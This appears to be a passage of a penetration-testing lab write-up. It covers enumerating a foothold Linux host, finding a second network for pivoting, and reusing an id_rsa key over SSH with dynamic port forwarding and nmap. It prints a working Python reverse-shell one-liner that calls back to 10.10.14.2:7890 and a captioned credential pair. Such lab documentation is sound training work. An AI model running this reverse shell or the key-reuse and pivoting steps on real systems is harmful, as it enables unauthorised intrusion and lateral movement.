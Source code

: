 # Assessment

## Enumeration

<figure><img src="../../.gitbook/assets/image (73).png" alt=""><figcaption><p>webadmin</p></figcaption></figure>

Seems to be a Linux host running on this system and there are 2 interfaces as below.

<figure><img src="../../.gitbook/assets/image (59).png" alt=""><figcaption><p>another network segment that we could use to pivot.</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (70).png" alt=""><figcaption><p>mlefay:Plain Human work!</p></figcaption></figure>

I decided to get a reverse shell for more control over the foothold sytem.

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",7890));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

<figure><img src="../../.gitbook/assets/image (32).png" alt=""><figcaption><p>but it wasn't nessesary</p></figcaption></figure>

I moved the id\_rsa file and ssh to the system with that file. Now I'm in the system with the same credentials but with ssh.

Next I will try to dynamic port forward with ssh.

Then perform nmap scan to find the host that are up.

<figure><img src="../../.gitbook/assets/image (46).png" alt=""><figcaption><p>172.16.5.35</p></figcaption></figure>









